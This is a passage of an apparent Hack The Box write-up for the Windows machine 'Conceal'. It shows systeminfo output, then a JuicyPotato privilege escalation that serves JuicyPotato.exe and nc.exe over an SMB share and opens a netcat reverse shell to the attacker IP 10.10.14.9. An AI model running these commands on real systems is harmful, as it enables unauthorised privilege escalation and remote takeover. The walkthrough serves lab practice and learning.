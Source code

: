 ```powershell
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,164 MB
Virtual Memory: Max Size:  3,199 MB
Virtual Memory: Available: 2,253 MB
Virtual Memory: In Use:    946 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.116
                                 [02]: fe80::1031:d377:eff5:6cba
                                 [03]: dead:beef::c888:9715:2be0:f364
                                 [04]: dead:beef::1031:d377:eff5:6cba
                                 [05]: dead:beef::248
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

The current version is vulnerable so I copied the **JuicyPotato** binary with **smbserver.py** in order to execute it.

```powershell
smbserver.py smbFolder $(pwd) -smb2support
```

```powershell
copy \\10.10.14.9\smbFolder\JuicyPotato.exe .
```

Once copied I have executed it with the following arguments.

```powershell
.\JuicyPotato.exe -t * -p \Windows\System32\cmd.exe -l 1338 -a "/c \\10.10.14.9\smbFolder\nc.exe -e cmd 10.10.14.9 4445"
```

With a **smbserver** on the **nc.exe** binary and setting a **nc** listener on our local machine, we are able to do a reverse shell as **root**.

```powershell
nc -lv 4445
```

![Untitled](/HTB/conceal-8.png)
